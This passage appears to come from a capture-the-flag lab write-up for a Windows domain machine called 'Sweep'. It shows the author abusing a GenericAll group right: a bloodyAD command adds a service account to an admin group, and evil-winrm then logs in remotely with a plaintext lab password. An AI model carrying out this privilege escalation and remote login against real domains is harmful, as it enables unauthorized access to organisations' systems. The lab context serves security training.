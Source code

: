 Outbound object control of the "svc_inventory_lnx" user, I found that this user is the member of "Lansweeper Discovery" group which have "GenericAll" right on "Lansweeper Admins" group and the "Lansweeper Admins" group is a member of "Remote Management Users" group and thats mean I can add  "svc_inventory_lnx" user to "Lansweeper Admins" group and I can foothold on the domain controller with via WinRM.
![f1eb65b23e47c2ad666ed548cd1090fb.png](/resources/f1eb65b23e47c2ad666ed548cd1090fb.png)

There are multiple ways to add users to a group remotely which I use bloodyAD for this and now I should be able to get a foothold as "svc_inventory_lnx" user.
```
bloodyAD --host "10.129.234.177" -d "sweep.vl" -u 'svc_inventory_lnx' -p '0|5m-U6?/uAX' add groupMember "Lansweeper Admins" "svc_inventory_lnx"
```
![df185c441af99a22b3909a42aa998699.png](/resources/df185c441af99a22b3909a42aa998699.png)
![26fb48c417007ad7efd0f9ddff633349.png](/resources/26fb48c417007ad7efd0f9ddff633349.png)

By using evil-winrm, I can now get a foothold and loot user flag located on root folder of C drive here.
```
evil-winrm -i sweep.vl -u 'svc_inventory_lnx' -p '0|5m-U6?/uAX'
```
